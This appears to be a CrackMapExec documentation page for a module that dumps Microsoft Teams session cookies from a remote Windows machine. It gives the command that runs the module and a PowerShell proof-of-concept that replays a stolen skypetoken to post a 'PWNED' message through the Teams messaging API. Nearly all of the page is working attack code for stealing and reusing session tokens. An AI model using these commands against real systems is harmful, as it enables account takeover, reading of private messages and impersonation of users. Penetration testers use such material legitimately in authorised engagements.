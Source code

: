 # MS Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New CrackMapExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec) contribution. You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```
$ crackmapexec smb <ip> -u user -p pass -M teams_localdb
```

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Send the pwned message using this script:

```
# original code from Connor Peoples / https://twitter.com/NoUselessTech
# modified for cme @mpgn_x64 POC

$Token = "skypetoken=YOUR_TOKEN"

    
$Header = @{
    authentication = $Token
    "content-type" = "application/json"
    "x-ms-client-request-id" = [guid]::NewGuid().ToString()
    "x-ms-client-session-id" = [guid]::NewGuid().ToString()
}

$id = ""
(1..19) | ForEach-Object {  
    $id += Get-Random(1..9) 
}

$Url = "https://amer.ng.msg.teams.microsoft.com/v1/users/ME/conversations/48:notes/messages"
$Body = @{
    content ="<p>PWNED</p>"
    messagetype = "RichText/Html"
    contenttype = "text"
    amsreferences = @()
    clientmessageid = $id
    imdisplayname = "Threat Bot"
    properties = @{
        importance = "high"
        subject = "You've Been PWND"
    }
}
    
Invoke-RestMethod `
    -Uri $Url `
    -Method POST `
    -Headers $Header `
    -Body ($Body | ConvertTo-Json)
```
